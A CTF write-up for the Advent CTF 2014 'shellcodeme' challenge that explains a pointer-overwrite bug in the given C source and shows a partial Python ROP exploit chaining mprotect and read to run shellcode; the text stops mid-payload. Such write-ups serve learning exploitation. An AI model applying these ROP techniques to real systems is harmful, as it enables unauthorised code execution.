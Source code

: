 ### Solved by barrebas 

Why o why do we take part in these painful exercises? Again, `shellcodeme` seemed like such a simple task. But looks, like all the other challenges of Advent CTF 2014, can be deceiving!

We're given a binary and the C source code:

```c
/* gcc -m32 -fno-stack-protector -znoexecstack -o shellcodeme shellcodeme.c */
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

#define SHELLCODE_LEN 1024

int main(void) {
    char *buf;
    buf = mmap((void *)0x20000000, SHELLCODE_LEN, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    read(0, &buf, SHELLCODE_LEN);
    mprotect((void *)0x20000000, SHELLCODE_LEN, PROT_READ); // no no no~
    (*(void(*)()) buf)(); // SEGV! no exec. can you execute shellcode?
}
```

The bug was kind of obvious: 

```c
read(0, &buf, SHELLCODE_LEN); // read to the location of buf itself
```

The code will read in the shellcode at `&buf`, not `buf`. This will allow us to overwrite that pointer and take control of execution at this line of code:

```c
(*(void(*)()) buf)(); // SEGV! no exec. can you execute shellcode?
```

I chose to overwrite the `buf` pointer with `0x080484fc`, which is `leave; ret`. This will restore the stack and land us in my ROP chain. The basic idea is to re-use `mprotect` and `read` to read in the shellcode and then return to it. The following python code did just that, landing me a shell on the box:

```python
#!/usr/bin/python
import struct
import socket
import telnetlib
import time
 
def p(x):
        return struct.pack('<L', x)
 
POP3RET = 0x804855d
MPROTECT = 0x8048330
READ = 0x8048340
 
payload = ""
payload += p(0x080484fc)        # leave; ret (restore stack)
payload += "A"*12               # dummy 
 
payload += p(MPROTECT)          # mprotect shellcode area back to rwx
payload += p(POP3RET)           # fix stack
payload += p(0x20000000)        # addr of shellcode
payload += p(0x1000)            # size (page-aligned)
payload += p(0x7)               # PROT_READ|PROT_EXEC|PROT_WRITE
 
payload += p(READ)              # read in our shellcode
```